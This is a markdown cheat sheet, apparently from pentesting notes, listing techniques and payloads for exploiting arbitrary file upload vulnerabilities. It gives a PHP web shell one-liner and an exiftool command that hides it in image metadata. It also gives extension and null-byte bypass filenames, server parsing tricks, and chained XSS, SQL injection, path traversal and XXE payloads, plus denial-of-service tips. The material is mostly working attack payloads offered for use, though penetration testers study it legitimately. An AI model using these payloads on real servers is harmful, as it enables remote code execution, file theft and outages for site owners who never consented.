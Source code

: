 ### Vulnerabilities via Arbitrary File Upload


### Bypasses
#### MIME Type Bypass
```
Content-Type: image/jpeg
```

#### Content-Length Bypass
```
<?php system($_GET['c']);?>
```

#### Magic Number Validation Bypass
##### Use Exiftool and instert malicious code
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['c']);?>' image.jpg
mv image.jpg image.php.jpg
```
#### Extension Bypass

| Type        | Extension       |
| ------------- |---------------|
| **php**      | phtml, .php, .php3, .php4, .php5, and .inc |
| **asp**      | asp, .aspx      |
| **perl** | .pl, .pm, .cgi, .lib      |
| **jsp**      | .jsp, .jspx, .jsw, .jsv, and .jspf      |
| **Coldfusion**      | .cfm, .cfml, .cfc, .dbm      |

#### Other Techniques(Extension Bypass)
```
file.shtml
file.asa
file.cert
```

##### Capital Letters of Extensions
```
file.PhP
file.AspX
```

#### Using Special Trailing Such as Spaces, Dots or Null Characters
```
file.asp...
file.php;jpg
file.php%00.png
file.php\x00.png
file.jpg%00.php
```

#### In IIS6 vulnerability, if the file name is ```file.asp;file.jpg```, the file will be executed as ```file.asp```.
#### In NginX, if the original file name is ```test.jpg```, testers/hackers may change it to ```test.jpg/x.php```, the file will be executed as ```x.php```.

### Chain With Other Vulnerabilities

#### XSS(Cross Site Scripting)
```
Filename: "><svg onload=alert(1)>.jpeg
xss.svg -> file contain xss payload inside svg format
```

#### SQL Injection
```
'sleep(10).jpg
```

#### Path Traversal
```
../../logo.png
../../etc/passwd/logo.png
```

#### RCE
```
ImageTragic
```

#### XXE
##### Filename: xxe.svg
##### Content-Type: image/svg+xml
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

#### SSRF
```
Change 'type=file' to 'type=url'
```
#### DoS Attack via Long File Name
```
# This one is a sample
# File name can be larger than this
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb.jpeg
```

#### DoS Attack via Pixel Flood Attack
![lottapixel.jpg](../Images/lottapixel.jpg)

#### Bypass
```
Replace the 64250*64250px pixel value with 0xfafa*0xfafa

For pixel change: https://www.resizepixel.com/
```

#### Uploaded file not found? Try Path Traversal on filename.
#### Try to brutefore file extension
